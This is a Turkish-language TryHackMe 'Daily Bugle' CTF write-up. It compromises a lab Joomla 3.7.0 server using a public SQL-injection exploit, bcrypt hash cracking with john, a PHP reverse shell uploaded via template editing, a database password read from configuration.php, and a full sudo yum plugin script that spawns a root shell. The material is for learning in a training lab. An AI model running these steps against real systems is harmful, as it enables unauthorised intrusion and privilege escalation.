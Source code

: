 ```yaml
---
title: 'TryHackMe | Daily Bugle WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_daily_bugle/
image:
  path: logo.webp
---
```


## Özet

Daily Bugle, SQL injection zafiyetli eklentiye sahip olan bir joomla uygulamasıdır. Bu zafiyete özel olarak hazırlanmış bir sömürü aracından faydalanarak kullanıcı bilgilerini elde edeğiz. Daha sonra bu bilgileri kullanarak içerik yönetim sistemine giriş yapacak ve temalar kısmından php reverse shell kodumuzu yükleyeceğiz. Bağlantı sonrasında ise joomla'nın konfigürasyon dosyasınından bir kullanıcının parolasını alacak ve onun hesabına geçeceğiz. Sonra da root haklarıyla çalıştırabileceğimiz yum aracı için bir eklenti yazacak ve çalıştırdıktan sonra root haklarına sahip olacağız.

## Keşif aşaması

### Nmap taraması

![](1.webp){: width="1200" height="600" }

Tarama sonucunda 22 (SSH), 80 (HTTP) ve 3306 (Mysql) numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](2.webp){: width="1200" height="600" }

Web uygulamasında örümcek adamın hırsızlık yaptığı bir haber paylaşılmış. Haberi paylaşan kişinin ismi `Super User`. Uygulamanın favicon kısmına baktığımızda `joomla` içerik yönetim sisteminin kullanıldığını öğreniyoruz. Joomscan aracını kullanarak hedef uygulamayı tarayalım.

```console
$ joomla -u 10.10.19.236
...
[+] Detecting Joomla Version                                                                                                                                                                  
[++] Joomla 3.7.0 
...
```

Tarama sonucunda içerik yönetim sisteminin 3.7.0 sürümünü kullandığını öğrendik. Adını ve sürümünü google da arattıktan sonra [bu](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) exploit ile karşılaşıyoruz.

## Sömürü aşaması

Exploit'i indirdikten sonra çalıştırıyor ve kullanıcı bilgilerini elde ediyoruz.

```console
$ python3 joomblah.py http://10.10.19.236/
...
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Elde ettiğimiz hash'i john aracının yardımıyla kıralım.

```console
$ john hash -w=Desktop/rockyou.txt 
[sudo] password for appdone: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s***3    (?)
...
```

Kullanıcı bilgilerini kullanarak SSH servisine bağlanmayı denedim ama olmadı. Daha sonra joomla paneline giriş yaptıktan sonra temalar kısmından ana sayfaya php shell kodumu girdim.

![](3.webp){: width="1200" height="600" }

Kayıt ettikten sonra "Template Preview" butonuna tıkladığımızda reverse shell kodunu çalıştırıyor ve sisteme ilk adımımızı atıyoruz.

## Yetki yükseltme

### jjameson

Joomla uygulamasının konfigürasyon dosyasının içerisinden `jjameson` kullanıcısının parolasını alıyoruz.

```console
bash-4.2$ cat configuration.php
public $dbtype = 'mysqli';                                                                                                                                                            
public $host = 'localhost';                                                                                                                                                           
public $user = 'root';                                                                                                                                                                
public $password = 'nv5uz9r3ZEDzVjNu';                                                                                                                                                
public $db = 'joomla';
```

Kullanıcıya geçiş yaptıktan sonra ilk bayrağı kendi dizininden alıyoruz.

# root

`sudo -l` komutunu kullandıktan sonra yum aracını parola gerektirmeden ve tüm kullanıcılar adına çalıştırabileceğimizi öğreniyoruz.

```console
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

yum aracını kullanarak nasıl yetki yükseltebileceğimizi öğrenmek için [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) sitesinden faydalanıyoruz. Oradan aldığımız komutu sistemde çalıştırdıktan sonra root yetkisinde bir shell'e sahip oluyoruz.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Bu komut yığını root kullanıcısına geçiş yapabilmemiz için bir eklenti oluşturuyor. Eklentileri aktif ettikten sonra belirtilen eklenti adresinden eklentiyi alıp çalıştırıyor, böyleye root haklarına sahip bir shell elde ediyoruz.
